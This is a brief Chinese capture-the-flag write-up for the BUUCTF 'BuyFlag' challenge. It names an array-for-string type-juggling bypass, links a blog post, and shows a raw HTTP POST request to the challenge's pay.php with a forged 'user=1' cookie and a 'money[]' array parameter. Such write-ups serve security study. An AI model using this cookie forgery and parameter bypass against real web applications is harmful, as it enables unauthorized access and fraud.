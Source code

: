 # 知识点
数组绕过字符串
# 思路
[BUUCTF：[极客大挑战 2019]BuyFlag_末 初的博客-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/109501224)
```php
POST /pay.php HTTP/1.1
Host: 285586c7-21d1-434f-98df-de9058f5ce92.node4.buuoj.cn:81
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://285586c7-21d1-434f-98df-de9058f5ce92.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://285586c7-21d1-434f-98df-de9058f5ce92.node4.buuoj.cn:81/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: user=1
Connection: close

password=404aa&money[]=1
```
